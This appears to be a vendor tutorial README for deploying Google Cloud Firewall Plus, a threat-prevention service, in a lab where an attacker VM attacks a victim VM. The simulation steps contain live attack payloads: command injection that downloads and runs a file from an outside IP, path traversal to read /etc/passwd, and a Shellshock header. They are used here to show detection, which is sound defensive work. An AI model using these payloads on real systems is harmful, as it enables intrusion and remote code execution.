





# Google Cloud Firewall Plus Tutorial

This tutorial shows how to deploy and use [Google Cloud Firewall Plus](https://www.paloaltonetworks.com/blog/network-security/netsec-google-cloud-firewall-plus/), a native Google Cloud service powered by Palo Alto Networks [Threat Prevention](https://docs.paloaltonetworks.com/pan-os/9-1/pan-os-admin/threat-prevention) technologies. 

[Cloud Firewall](https://cloud.google.com/firewall?hl=en) is a fully distributed firewall service with advanced protection capabilities, micro-segmentation, and pervasive coverage to protect your Google Cloud workloads from internal and external threats, including: intrusion, malware, spyware, and command-and-control. The service works by creating Google-managed zonal [firewall endpoints](https://cloud.google.com/firewall/docs/about-firewall-endpoints) that use packet intercept technology to transparently inspect the workloads for the configured threat signatures and protect them against threats.



---
> [!NOTE]
> Cloud Firewall Plus is currently in public preview.
---

## Requirements

* Familiarize yourself with the [Cloud Firewall Plus](https://cloud.google.com/firewall/docs/about-intrusion-prevention).
* A valid `gcloud` (SDK `447.0.0` or greater) installation or access to Google Cloud Shell.
* A [Google Cloud project](https://cloud.google.com/resource-manager/docs/creating-managing-projects).

---
> [!IMPORTANT]
> You must be an organization administrator to use this tutorial.
---

## Topology

Below is a diagram of the tutorial. 

A VPC network contains two virtual machines (`attacker` and `victim`) that are used to simulate threats.  Each virtual machine has an external address associated with its network interface to provide internet connectivity.  

When Cloud Firewall Plus is enabled, Google Cloud firewall rules intercept VPC network traffic (including north-south and east-west) and redirect it to the Firewall Plus endpoint for inspection. All actions taken by the service are logged directly in the Google Cloud console for you.




## Prepare for deployment

Prepare for deployment by enabling the required APIs, retrieving the deployment files, and configuring the environment variables.

---
> [!IMPORTANT]
> This tutorial assumes you are using Cloud Shell to provision all of the resources.
---

1. Open [Google Cloud Shell](https://shell.cloud.google.com)  and enable the required APIs.

    ```
    gcloud services enable compute.googleapis.com
    gcloud services enable networksecurity.googleapis.com

    ```

2. List your Organization ID(s).

    ```
    gcloud organizations list
    ```


3. Set the desired Organization ID to the environment variable `ORG_ID`.

    <pre>
    export ORG_ID=<em><b>ORGANIZATION_ID</b></em>
    </pre>

4. List your projects within your selected organization. 

    ```
    gcloud alpha projects list --organization=$ORG_ID
    ```

5. Set the desired Project ID to the environment variable `PROJECT_ID`.

    <pre>
    export PROJECT_ID=<em><b>PROJECT_ID</b></em>
    </pre>


6. Set your Project ID to your `gcloud` configuration. 

    ```
    gcloud config set project $PROJECT_ID
    ```

7. Set values for the deployment's `REGION`, `ZONE`, and naming `PREFIX`.

    <pre>
    export REGION=<em><b>us-central1</b></em>
    export ZONE=<em><b>us-central1-a</b></em>
    export PREFIX=<em><b>panw</b></em>
    </pre>

---
> [!NOTE]
> `prefix` is a string of characters that is prepended to the name of each created resource.
---

8. Select a deployment option.  Both options deploy identical environments. 
    * **[Option 1. Scripted Deployment](#scripted-deployment)**
        - All of the cloud resources required for the tutorial are deployed using a single script.
        - Best for users who are familiar with Cloud Firewall Plus and want to quickly test use-cases. 
    * **[Option 2. Step-by-step Deployment](#step-by-step-deployment)**
        - Each cloud resource is deployed individually through `gcloud`.  
        - Best for users who are new to Cloud Firewall Plus or want control over which resources are deployed. 
<br>


## Scripted Deployment

1. In Cloud Shell, clone the repository and change directories. 

    ```
    git clone https://github.com/PaloAltoNetworks/google-cloud-firewall-plus-tutorial
    cd google-cloud-firewall-plus-tutorial
    ```

2.  Execute the script to create the environment. 

    ```
    ./ips_create.sh
    ```

4. When the script completes, proceed to [Simulate Threats](#simulate-threats).

---
> [!IMPORTANT]
> The script can take up to 45 minutes to complete.
---

## Step-by-Step Deployment

1. In Cloud Shell, create a VPC network, subnetwork, and firewall rule to allow all ingress traffic. 

    ```
    gcloud compute networks create $PREFIX-vpc \
        --subnet-mode=custom \
        --project=$PROJECT_ID

    gcloud compute networks subnets create $PREFIX-subnet \
        --network=$PREFIX-vpc \
        --range=10.0.0.0/24 \
        --region=$REGION \
        --project=$PROJECT_ID

    gcloud compute firewall-rules create $PREFIX-all-ingress \
        --network=$PREFIX-vpc \
        --direction=ingress \
        --allow=all \
        --source-ranges=0.0.0.0/0 \
        --project=$PROJECT_ID
    ```

2. Create two virtual machines (`attacker` & `victim`). The machines will be used to simulate threats later.

    ```
    gcloud compute instances create $PREFIX-attacker \
        --zone=$ZONE \
        --machine-type=f1-micro \
        --image-project=ubuntu-os-cloud \
        --image-family=ubuntu-2004-lts \
        --network-interface subnet=$PREFIX-subnet,private-network-ip=10.0.0.10 \
        --project=$PROJECT_ID

    gcloud compute instances create $PREFIX-victim \
        --zone=$ZONE\
        --machine-type=f1-micro \
        --image-project=panw-gcp-team-testing \
        --image=debian-cloud-ids-victim \
        --network-interface subnet=$PREFIX-subnet,private-network-ip=10.0.0.20 \
        --project=$PROJECT_ID
    ```

3. Create a [security profile](https://cloud.google.com/firewall/docs/about-security-profiles) and a [security profile group](https://cloud.google.com/firewall/docs/about-security-profile-groups). 

    ```
    gcloud beta network-security security-profiles threat-prevention create $PREFIX-profile \
        --location=global \
        --project=$PROJECT_ID \
        --organization=$ORG_ID \
        --quiet

    gcloud beta network-security security-profile-groups create $PREFIX-profile-group \
        --threat-prevention-profile "organizations/$ORG_ID/locations/global/securityProfiles/$PREFIX-profile" \
        --location=global \
        --project=$PROJECT_ID \
        --organization=$ORG_ID \
        --quiet
    ```

    > :bulb: **Objective** <br> 
    > Security profiles define layer 7 inspection policies for Google Cloud resources, offering application layer services like intrusion prevention through firewall endpoints. Security profile groups serve as a container for these profiles and are referenced within firewall policies to redirect network traffic. 
    <br>

4. Set the security profile's action to `ALERT` for threat severities categorized as `INFORMATIONAL` and `LOW`, while setting it to `BLOCK` for those categorized as `MEDIUM`, `HIGH`, and `CRITICAL`.

    ```
    gcloud beta network-security security-profiles threat-prevention add-override $PREFIX-profile \
        --severities=INFORMATIONAL,LOW \
        --action=ALERT \
        --location=global \
        --organization=$ORG_ID \
        --project=$PROJECT_ID

    gcloud beta network-security security-profiles threat-prevention add-override $PREFIX-profile \
        --severities=MEDIUM,HIGH,CRITICAL \
        --action=DENY \
        --location=global \
        --organization=$ORG_ID \
        --project=$PROJECT_ID
    ```

    > :bulb: **Objective** <br>
    > Each severity level has an associated default action. The default action specifies the action to take against threats based on the threat's severity level.  You can use security profiles to override the default action for a severity level. 
    <br>

5. Create a [Firewall Plus Endpoint](https://cloud.google.com/firewall/docs/about-firewall-endpoints). The endpoint can take up to 25 minutes to fully provision. 

    ```
    gcloud beta network-security firewall-endpoints create $PREFIX-endpoint \
        --zone=$ZONE \
        --project=$PROJECT_ID \
        --organization=$ORG_ID \
        --quiet

    while true; do
        STATUS_EP=$(gcloud beta network-security firewall-endpoints describe $PREFIX-endpoint \
            --zone=$ZONE \
            --project=$PROJECT_ID \
            --organization=$ORG_ID \
            --format="json" | jq -r '.state')
        if [[ "$STATUS_EP" == "ACTIVE" ]]; then
            echo "Firewall endpoint $PREFIX-endpoint is now active."
            sleep 2
            break
        fi
        echo "Waiting for the firewall endpoint to be created.  This can take up to 25 minutes..."
        sleep 5
    done
    ```

    > :bulb: **Objective** <br> 
    > A firewall endpoint is a organizational resource that inspect intercepted traffic with Palo Alto Networks Threat Prevention technologies. 
    <br>

6. Associate the endpoint with the VPC network.  The association can take up to 30 minutes to complete. 

    ```
    gcloud beta network-security firewall-endpoint-associations create $PREFIX-assoc \
        --endpoint "organizations/$ORG_ID/locations/$ZONE/firewallEndpoints/$PREFIX-endpoint" \
        --network=$PREFIX-vpc \
        --zone=$ZONE \
        --project=$PROJECT_ID \
        --quiet

    while true; do
        STATUS_ASSOC=$(gcloud beta network-security firewall-endpoint-associations describe $PREFIX-assoc \
            --zone=$ZONE \
            --project=$PROJECT_ID \
            --format="json" | jq -r '.state')

        if [[ "$STATUS_ASSOC" == "ACTIVE" ]]; then
            echo "Endpoint association $PREFIX-assoc is now active."
            sleep 2
            break
        fi
        echo "Waiting for the endpoint association to be created.  This can take up to 45 minutes..."
        sleep 1
    done
    ```

    > :bulb: **Objective** <br> 
    > The firewall endpoint can be associated with one or more VPC networks within the same zone.  If a firewall policy attached to your VPC network has layer 7 inspection enabled, matching traffic is transparently redirected to the endpoint for inspection. 
    <br>

7. Create a [Network Firewall Policy](https://cloud.google.com/firewall/docs/network-firewall-policies) with two firewall rules to allow all ingress & egress traffic to the workload network.

    ```
    gcloud compute network-firewall-policies create $PREFIX-global-policy \
        --global \
        --project=$PROJECT_ID

    gcloud compute network-firewall-policies rules create 10 \
        --action=allow \
        --firewall-policy=$PREFIX-global-policy \
        --global-firewall-policy \
        --direction=INGRESS \
        --enable-logging \
        --layer4-configs all \
        --src-ip-ranges=0.0.0.0/0 \
        --dest-ip-ranges=0.0.0.0/0\
        --project=$PROJECT_ID

    gcloud compute network-firewall-policies rules create 11 \
        --action=allow \
        --firewall-policy=$PREFIX-global-policy \
        --global-firewall-policy \
        --layer4-configs=all \
        --direction=EGRESS \
        --enable-logging \
        --src-ip-ranges=0.0.0.0/0 \
        --dest-ip-ranges=0.0.0.0/0 \
        --project=$PROJECT_ID
    ```

    > :bulb: **Objective** <br> 
    > A Network Firewall Policy can be shared across networks within a Google Cloud organization.  This simplifies the configuration and management of firewall rules.
    > The firewall policies created, do not redirect traffic to the Firewall Endpoint.  This will be done later in the tutorial.
    <br>

8. Associate the Network Firewall Policy with the VPC network that contains the workload machines.  

    ```
    gcloud compute network-firewall-policies associations create \
        --firewall-policy=$PREFIX-global-policy \
        --network=$PREFIX-vpc \
        --name=$PREFIX-global-policy-association \
        --global-firewall-policy
    ```

    > :bulb: **Objective** <br> 
    > A Network Firewall Policy is an organizational resource, enabling you to apply policies across networks, projects, and folders.
    <br>

9. (Optional) Review the created resources:
    - [Firewall Endpoint](https://console.cloud.google.com/net-security/firewall-endpoints/)
    - [Firewall Endpoint VPC Network Association](https://console.cloud.google.com/networking/networks/list)
    - [Security Profile](https://console.cloud.google.com/net-security/security-profiles/profiles)
    - [Network Firewall Policy](https://console.cloud.google.com/net-security/firewall-manager/firewall-policies/)
    <br>


## Simulate threats without Cloud Firewall Plus

Simulate several threats between the `attacker` and `victim` virtual machines without Cloud Firewall Plus inspection.  Deep packet inspection does not occur because the firewall policies created in the previous step do not intercept traffic for inspection by the Firewall Plus endpoint. 



1. In Cloud Shell, open an SSH session to the `attacker` VM.
    ```
    gcloud compute ssh paloalto@$PREFIX-attacker --zone=$ZONE --project=$PROJECT_ID
    ```

2. From the `attacker` VM, simulate sudo-threats to the `victim` (`10.0.0.20`) VM.
    ```
    curl "http://10.0.0.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
    curl http://10.0.0.20/?item=../../../../WINNT/win.ini -m 5
    curl http://10.0.0.20/cgi-bin/../../../..//bin/cat%20/etc/passwd -m 5
    curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' -m 5 http://10.0.0.20/cgi-bin/test-critical -m 5
    ```

3. Attempt to download a sudo malicious file from the internet. 

    ```
    wget www.eicar.org/download/eicar.com.txt --tries 1 --timeout 2
    ```

    > :bulb: **Objective** <br>
    > The above threat simulations should be successful.  This is because the Firewall Endpoint is not inspecting the traffic between the `attacker` and `victim` virtual machines. 
    <br>

## Prevent threats with Cloud Firewall Plus

Cloud Firewall uses Google Cloud's packet intercept technology to transparently redirect traffic from workloads to firewall endpoints.  Traffic redirection is defined within network firewall rules that reference the security profile group. 



### Update network firewall policies

Update the network firewall policies to redirect traffic to the firewall endpoint.  The action defined in the firewall rule determines which security profile group is applied to the traffic. 

1. Modify the ingress & egress firewall rules within the global network policy to intercept traffic to the Firewall Plus endpoint.

    ```
    gcloud beta compute network-firewall-policies rules update 10 \
        --action=apply_security_profile_group \
        --firewall-policy=$PREFIX-global-policy \
        --global-firewall-policy \
        --project=$PROJECT_ID \
        --security-profile-group=//networksecurity.googleapis.com/organizations/$ORG_ID/locations/global/securityProfileGroups/$PREFIX-profile-group

    gcloud beta compute network-firewall-policies rules update 11 \
        --action=apply_security_profile_group \
        --firewall-policy=$PREFIX-global-policy \
        --global-firewall-policy \
        --project=$PROJECT_ID \
        --security-profile-group=//networksecurity.googleapis.com/organizations/$ORG_ID/locations/global/securityProfileGroups/$PREFIX-profile-group
    ```

### Replay threats

Rerun the previous threats again to see the actions taken by Cloud Firewall Plus.

1. In Cloud Shell, open an SSH session to the `attacker` VM (password: `kali`).
    
    ```
    gcloud compute ssh paloalto@$PREFIX-attacker --zone=$ZONE --project=$PROJECT_ID
    ```

2. From the `attacker` VM, simulate sudo-threats to the `victim` (`10.0.0.20`) VM.

    ```
    curl "http://10.0.0.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
    curl http://10.0.0.20/?item=../../../../WINNT/win.ini -m 5
    curl http://10.0.0.20/cgi-bin/../../../..//bin/cat%20/etc/passwd -m 5
    curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' -m 5 http://10.0.0.20/cgi-bin/test-critical -m 5
    ```

3. Attempt to download a sudo-malicious file from the internet. 

    ```
    wget www.eicar.org/download/eicar.com.txt --tries 1 --timeout 2
    ```
    > :bulb: **Objective** <br>
    > The simulated threats from the `attacker` should fail.  This is because the Firewall Plus service is preventing the exploits from reaching the `victim` machine.
    <br>

### View threats

View the actions taken by the Firewall Plus service directly within the Google Cloud console. 

1. In the Google Cloud console, go to **[Network Security → Threats](https://console.cloud.google.com/net-security/threats/)**.

    
    <br>

    > :bulb: **Objective** <br>
    > You should see the actions taken by the Firewall Plus endpoint, indicating the service has detected and/or stopped the simulated threats.
    >
    > The action taken against a threat is determined by the security profile group applied to the network firewall rule. 
    <br>

## Clean up

To delete the created resources, delete your Google Cloud deployment project.  If you cannot delete your deployment project, follow the steps below to delete the cloud resources created in this tutorial.

1. If you chose the **Step-by-Step Deployment**, clone the repository in Cloud Shell.

    ```
    git clone https://github.com/PaloAltoNetworks/google-cloud-firewall-plus-tutorial
    cd google-cloud-firewall-plus-tutorial
    ```

2. Execute the script to delete the resources created in this tutorial.

    ```
    ./ips_delete
    ```

## More Information

Please see the materials below for more information about the topics discussed in this tutorial.

* [Announcement Palo Alto Networks with Google Cloud Firewall](https://www.paloaltonetworks.com/blog/network-security/netsec-google-cloud-firewall-plus/)
* [Palo Alto Networks with Google Cloud](https://cloud.google.com/palo-alto-networks)
* [Cloud Firewall Plus Overview](https://cloud.google.com/firewall/docs/about-intrusion-prevention)
* [Configure Intrusion Prevention Service](https://cloud.google.com/firewall/docs/configure-intrusion-prevention)